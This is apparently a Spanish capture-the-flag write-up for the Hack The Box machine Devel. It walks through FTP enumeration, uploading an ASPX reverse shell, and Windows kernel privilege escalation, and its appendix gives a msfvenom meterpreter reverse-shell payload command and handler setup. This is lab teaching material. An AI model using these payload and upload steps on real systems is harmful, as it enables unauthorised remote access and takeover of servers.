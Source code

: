```yaml
---
layout: single
title: Devel - Hack The Box
excerpt: "Devel es una maquina windows que se explota mediante un servicio FTP que tiene subida arbitraria de archivos, por medio de esta debilidad, se logra establecer una conexión al equipo victima y ejecutar comandos, luego se logra escalar privilegios por medio de un exploit conocido basado en la versión del sistema operativo."
date: 2021-10-10
classes: wide
header:
  teaser: /assets/images/htb-writeup-devel/devel-logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:
  - ftp
  - windows
  - arbitrary file upload
---
```


![](/assets/images/htb-writeup-devel/devel-logo.png)


Esta es una maquina de nivel facil segun hack the box, donde por medio de un servicio FTP se logra subir archivos que permiten ganar acceso al sistema.

## Enumeración
vamos a comenzar enumerando el sistema con nmap para descubrir puertos y servicios corriendo en dichos puertos

```
nmap -sC -sV 10.10.10.5
```

el escaneo de nmap nos reporta los puertos 21(ftp) y 80(http) abiertos

```
Nmap scan report for 10.10.10.5
Host is up (0.22s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

nmap fue capaz de identificar que el puerto 21 permite logearse con el usuario "Anonymous", el cual no se necesita contraseña para ingresar. 

# Acceso y explotación

Nos conectamos al servicio FTP
```
ftp 10.10.10.5
```
y observamos 3 archivos

![](/assets/images/htb-writeup-devel/devel1.png)


Si navegamos por el puerto 80, veremos la imagen clasica del servicio IIS de windows, sin embargo, al entrar al servicio FTP está la misma imagen (welcome.png) que nos muestra mediante el puerto 80. Por lo que una vía pontencial de explotación es intentar subir una reverse shell.

Buscando en internet "aspx reverse shell github" encontramos una que nos sirve

![](/assets/images/htb-writeup-devel/devel2.png)


por lo que la descargamos en nuestra maquina de atacante 

![](/assets/images/htb-writeup-devel/devel3.png)


y cambiamos la IP y puerto local a la que nos queremos conectar.

![](/assets/images/htb-writeup-devel/devel6.png)


ahora, nos conectamos al servicio FTP (FTP IP-VICTIMA) y ejecutamos el siguiente comando para subir nuestra shell que acabamos de descargar
```
put shell.aspx
```

una vez subida, nos tendremos que poner en escucha con netcat

![](/assets/images/htb-writeup-devel/devel7.png)


y ejecutamos el archivo que subimos desde la web

![](/assets/images/htb-writeup-devel/devel5.png)


y ya logramos ganar acceso al sistema

![](/assets/images/htb-writeup-devel/devel4.png)


# Escalada de privilegios
Una vez ganado acceso el sistema, podemos ver ante que SO nos estamos enfrentando, con el comando
```
systeminfo
```

Según la información del SO, estamos ante un Windows 7 6.1.7600

![](/assets/images/htb-writeup-devel/devel8.png)


buscando en internet un exploit para esta versión, encontramos uno, asi que vamos a probarlo

![](/assets/images/htb-writeup-devel/devel9.png)


Para ejecutar este exploit, primero necesita ser compilado, en caso de que no tengas la utilidad *mingw-w64* (la cual sirve para compilar exploits de windows en linux) puedes instalarla con el siguiente comando
```
sudo apt-get install mingw-w64
```

ahora solo queda subir el exploit mediante FTP y ejecutarlo en la maquina victima. Nota: cuando ingresemos por FTP, debemos ejecutar el comando "binary" dado que se suelen perder datos de archivos al subirlo, con este comando hacemos que se suba intacto.

![](/assets/images/htb-writeup-devel/devel10.png)


una vez subido, nos dirigimos a la ruta C:\inetpub\wwwroot y ejecutamos el exploit que acabamos de subir, y nos convertimos en el usuario **nt authority\system**

![](/assets/images/htb-writeup-devel/devel11.png)



 
# Anexos

## shell con metasploit
creamos el payload
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.16.6 lport=4444 -f aspx -o shell.aspx
```

nos ponemos en escucha
1. ```msfconsole```
2. ```use exploit/multi/handler```
3. ```set payload windows/meterpreter/reverse_tcp```
4. ```set lhost 10.10.16.6```
5. ```set lport 1234```
6. ```run```


## Pseudo consola para ejecución de comandos
Parrot y Kali linux traen una pseudo consola para en lenguaje aspx que nos permite ejecutar comandos, para encontrla podemos escribir el siguiente comando
```
locate cmdasp.aspx
```

este archivo lo subimos mediante FTP y tendremos ejecución de comandos, para luego establecer una reverse shell a nuestro equipo.
